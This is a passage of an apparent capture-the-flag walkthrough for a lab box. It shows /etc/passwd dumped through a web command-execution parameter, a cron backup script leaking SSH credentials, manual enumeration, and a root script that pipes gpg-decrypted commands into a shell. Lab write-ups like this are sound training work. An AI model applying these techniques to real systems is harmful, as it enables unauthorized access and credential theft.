    vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
    ntp:x:123:123:NTP:/var/empty:/sbin/nologin
    smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
    guest:x:405:100:guest:/dev/null:/sbin/nologin
    nobody:x:65534:65534:nobody:/:/sbin/nologin
    nginx:x:100:101:nginx:/var/lib/nginx:/sbin/nologin
    evs:x:1000:1000:Linux User,,,:/home/evs:/bin/ash
    www:x:1001:1001:www:/home/www:/bin/ash
> cmd=ls -la /home/evs

    total 12
    drwxr-sr-x    1 evs      evs           4096 Jul  7 22:29 .
    drwxr-xr-x    1 root     root          4096 Jul  7 22:28 ..
    -rw-r--r--    1 evs      evs             33 Jul  6 22:02 user.txt

We got the user.

find command was not working so had to do the manual enumeration.

On enumerating the cronjobs, we get a file
> cmd=ls -la /etc/periodic/15min/

    total 12
    drwxr-xr-x    1 root     root          4096 Jul  7 22:29 .
    drwxr-xr-x    1 root     root          4096 May 29 14:20 ..
    -rwxr-xr-x    1 www      www            190 Jul  6 21:40 evs-backup.sh
> cmd=ls -la /etc/periodic/15min/evs-backup.sh

    #!/bin/ash

    # ToDo: create a backup script, that saves the /www directory to our internal server
    # for authentication use ssh with user "evs" and password <password>

Now ssh on the server, to get a shell

![](https://cdn-images-1.medium.com/max/2000/1*pfFzIDGd52cVp7qsOp6WAw.png)

Enumerating the box with linenum script didn't work. So enumerated manually to search for .sh scripts.

    harder:~$ find / -name *.sh 2>/dev/null
    /usr/bin/findssl.sh
    /usr/local/bin/run-crypted.sh
    /etc/periodic/15min/evs-backup.sh
> /usr/local/bin/run-crypted.sh

    harder:~$ cat /usr/local/bin/run-crypted.sh 
    #!/bin/sh

    if [ $# -eq 0 ]
      then
        echo -n "[*] Current User: ";
        whoami;
        echo "[-] This program runs only commands which are encypted for root@harder.local using gpg."
        echo "[-] Create a file like this: echo -n whoami > command"
        echo "[-] Encrypt the file and run the command: execute-crypted command.gpg"
      else
        export GNUPGHOME=/root/.gnupg/
        gpg --decrypt --no-verbose "$1" | ash
    fi
